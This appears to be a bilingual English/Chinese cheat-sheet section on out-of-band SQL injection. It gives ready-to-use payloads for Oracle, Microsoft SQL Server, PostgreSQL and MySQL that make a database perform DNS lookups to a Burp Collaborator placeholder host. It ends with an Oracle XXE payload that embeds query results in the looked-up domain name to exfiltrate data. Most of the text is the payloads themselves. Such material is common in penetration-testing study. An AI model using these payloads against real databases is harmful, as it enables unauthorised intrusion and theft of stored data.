 
---------------

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.


## DNS查詢
可以使 DB 對個外部 domain 進行 DNS lookup
- 需要用 `Burp Collaborator` 建立獨立的 Burp Collaborator subdomain
- 在攻擊中使用，然後輪詢 Collaborator server 確認發生了 DNS lookup


Oracle
- 下面的技術利用 XML external entity (XXE) 漏洞來觸發 DNS lookup
- 漏洞已被修補，但仍有許多未修補的 Oracle 設備存在

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

下面的技術在 fully patched 的 Oracle 是可行的，但需要高等級的權限

```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

Microsoft
```sql
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

PostgreSQL
```sql
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

MySQL
- The following techniques work on `Windows` only:

```sql
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

---------------


## DNS lookup 與資料滲出
DNS lookup 時，包含滲透的資料

Oracle
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
